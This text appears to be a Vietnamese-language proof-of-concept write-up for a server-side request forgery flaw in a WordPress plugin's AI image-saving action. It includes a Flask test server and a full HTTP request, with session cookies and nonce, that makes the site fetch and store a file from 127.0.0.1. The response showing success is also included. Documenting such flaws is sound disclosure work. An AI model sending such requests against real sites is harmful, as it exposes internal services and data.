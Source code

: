 ```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'requirements.txt', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```txt {filename="requirements.txt"}
hello
```

### Proof of Concept (PoC)

Gửi request với `image_url` trỏ đến local service `http://127.0.0.1:8001/test` bằng user **Author**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?loggedout=true&wp_lang=en_US
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C3cc12be38f8f94048309b7fcd31bd2187065311afecea7df5a9f01f5a207072b; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C38f09626eae6d08f6cdb9cd1ce781da26c2acdd8ef2fd1822d84a6d76c6c95ad; wp-settings-time-4=1761017121

action=save_ai_generated_image&admin_nonce=9433571df4&prompt=abc&image_url=http://127.0.0.1:8001/test
```

**Response**:

```json
{
  "success": true,
  "data": {
    "attachment_id": 355,
    "url": "http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png",
    "alt": "abc",
    "title": "abc",
    "caption": "",
    "description": ""
  }
}
```
